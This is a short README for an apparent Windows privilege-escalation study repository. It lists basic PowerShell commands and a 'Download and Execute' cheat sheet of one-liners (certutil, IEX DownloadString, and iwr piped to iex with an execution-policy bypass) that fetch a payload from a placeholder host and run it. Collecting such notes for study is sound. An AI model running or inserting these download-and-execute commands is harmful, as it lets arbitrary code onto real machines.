 # WindowsPrivEsc
Repository on Windows Privilege Escalation, It contains helpful resources which can guide you escalating your privileges on Windows. I was noting all of the Privilege Escalation methods and vectors while I was studying it. Please go through it and you may find it helpful. Also, Small CheatSheets can be found here which can be important. Will keep updating it!


## PowerShell Basic Commands:

`Get-ChildItem` (Displays all the contents in the current directory)
`Get-Alias` (Displays all the aliases)
`Set-Alias` (Setup your Alias)
`$profile` (Lists your powershell profile, for eg: `"C:\Users\user\Documents\WindowsPowerShell\Microsoft.PowerShell_profile.ps1"`)
`Import-Module ./PowerUp.ps1` (Imports a PowerShell Script Module)
`Remove-Item` (Delete any file or folder)
`Import-Alias` (Import aliases)

## Download and Execute:

### CertUtil:

`certutil -urlcache -f http://127.0.0.1/sample.exe C:\temp\sample.exe && C:\temp\sample.exe`

### PowerShell:

`Invoke-WebRequest "http://127.0.0.1/sample.exe" -OutFile "C:\temp\sample.exe"` (This will only download the file)

`echo IEX(New-Object Net.WebClient).DownloadString('http://127.0.0.1/sample.exe') | powershell -noprofile -`

`powershell -exec bypass -c "(New-Object Net.WebClient).Proxy.Credentials=[Net.CredentialCache]::DefaultNetworkCredentials;iwr('http://127.0.0.1/sample.ps1')|iex"`

# Socials

TwitterID: https://twitter.com/BhalgamaVedant 

YouTube: https://www.youtube.com/channel/UCIlMtOiRDi1luvhtjczvjJw 
